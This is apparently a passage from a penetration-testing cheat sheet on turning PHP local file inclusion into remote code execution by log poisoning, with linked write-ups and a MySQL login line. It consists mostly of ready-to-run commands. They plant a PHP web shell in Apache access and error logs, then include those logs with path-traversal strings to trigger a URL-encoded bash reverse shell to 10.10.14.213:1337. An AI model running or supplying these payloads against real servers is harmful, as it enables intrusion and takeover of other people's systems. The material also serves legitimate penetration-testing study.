 * [www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)



### Log Poisoning


#### PHP

Access log (needs single `'` instead of double `"`):

```
root@kali:$ nc 127.0.0.1 80
GET /<?php system($_GET['cmd']); ?>

root@kali:$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//var//log//apache2//access.log&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
Or
root@kali:$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//proc//self//fd//1&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
```

Error log:

```
root@kali:$ curl -X POST 'http://127.0.0.1/vuln1.php' --form "userfile=@docx/sample.docx" --form 'submit=Generate pdf' --referer 'http://nowhere.com/<?php system($_GET["cmd"]); ?>'
root@kali:$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//var//log//apache2//error.log&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
Or
root@kali:$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//proc//self//fd//2&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
```

* [medium.com/bugbountywriteup/bugbounty-journey-from-lfi-to-rce-how-a69afe5a0899](https://medium.com/bugbountywriteup/bugbounty-journey-from-lfi-to-rce-how-a69afe5a0899)
* [outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)




## DBMS



### MySQL (MariaDB)

```
root@kali:$ mysql -u snovvcrash -p'Passw0rd1!' -e 'show databases;'
```



[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)